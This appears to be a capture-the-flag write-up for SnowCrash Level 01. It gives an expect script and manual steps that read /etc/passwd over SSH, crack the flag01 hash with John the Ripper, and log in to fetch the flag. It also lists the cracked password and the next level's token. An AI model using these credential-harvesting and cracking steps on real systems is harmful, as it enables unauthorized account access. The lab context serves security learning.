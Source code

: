 # Level 01
- In the shell of your choice run the script attached or follow the steps bellow using your VM IP address to get the flag, also root privileges and some dependencies may be needed to install before
	```sh
	$ chmod u+x script.sh
	$ ./script.sh
	$ cat script.sh
	#!/usr/bin/expect -f
	set ip 192.168.1.103
	set prompt "~="
	spawn ssh -o "StrictHostKeyChecking no" level01@$ip -p 4242 "cat /etc/passwd | grep flag01"
	expect "sword:"
	send "x24ti5gi3x0ol2eh4esiuxias\r"
	expect -re "\r\n(.*?)\r\n"
	set password $expect_out(1,string)
	set outfile [open "passwd" w]
	puts $outfile $password
	close $outfile
	spawn apk add john
	expect $prompt
	spawn john passwd
	expect $prompt
	spawn john --show passwd
	expect -re ".*?:(.*?):.*"
	set password $expect_out(1,string)
	puts $password
	spawn ssh -o "StrictHostKeyChecking no" flag01@$ip -p 4242 "getflag"
	expect "sword:"
	send "$password\r"
	interact
	```
- View the `passwd` file and find a vulnerability for the user `flag01`
	```sh
	$ cat /etc/passwd | grep flag01
	```
- Copy the output of the command above and save it on your machine to a separate file `passwd`, for example, in the home folder
- Go to the `https://www.openwall.com/john/` and download the corresponding version of the John the Ripper password cracker to your Operating System or install it with a package manager
- Launch this utility twice in a separate CLI with the file saved above given as an argument to it
	```sh
	$ john ~/passwd
	$ john --show ~/passwd
	```
- Copy the decrypted password `abcdefg` and return to the CLI of SnowCrash VM
- Switch to the `flag01` user with the password decrypted above
	```sh
	$ su flag01
	Password: abcdefg
	```
- Run `getflag` command to get the flag
	```sh
	$ getflag
	```
- With the token provided `f2av5il02puano7naaf6adaaf` switch to the next user level
	```sh
	$ su level02
	Password: f2av5il02puano7naaf6adaaf
	```
